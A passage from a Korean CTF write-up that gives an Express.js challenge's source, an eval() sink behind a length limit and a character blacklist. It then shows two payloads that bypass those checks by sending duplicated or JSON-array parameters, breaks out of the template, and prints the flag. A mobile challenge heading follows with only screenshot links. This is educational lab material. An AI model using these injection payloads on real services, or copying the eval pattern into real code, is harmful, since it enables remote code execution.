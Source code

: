 ```jsx

app.post('/', (req, res) => {
    const blacklist = ['(','/']
    if (req.body.code.length > 11){
        return res.send('request too long');
    } 
    let filtered = blacklist
    try{
        filtered = blacklist.filter(x => !req.body.code.toString().includes(x));

        if (JSON.stringify(filtered) != JSON.stringify(blacklist)){
            return res.send('blocked');
        }
        const code = `(()=>console.log("${req.body.code}"))()`;
        return res.send('>> '+eval(code)+'<br>Is it what you want?:D');
    } catch (err) {
        return res.send('invalid code');
    }
});

app.listen(80, () => console.log('Server On 80'));
```

파라미터명이 같은 파라미터를 두 개 전송하게 되면 javascript에서는 이를 array로 인식하게 됩니다. 따라서 req.body.code.length 제한을 우회할 수 있습니다.

첫번째 방법은 파라미터 전송시 함수를 닫고 FLAG를 출력하는 방식으로 문제를 해결할 수 있습니다. `code="));FLAG<!--&code=b`

두번째 방법은 Content-Type을 application/json으로 변경 후 `{"code":["\\"));FLAG<!—"]}` 값을 전송하여 문제를 풀 수 있습니다.

FLAG: hspace{If_you_want,_you'll_find_a_way:D ahahaha~~}

## [MOBILE] Adventure of Warrior

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2030.png)

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2031.png)

---

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2032.png)

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2033.png)

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Screenshot_20210426-103708.png)

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2034.png)

---

---
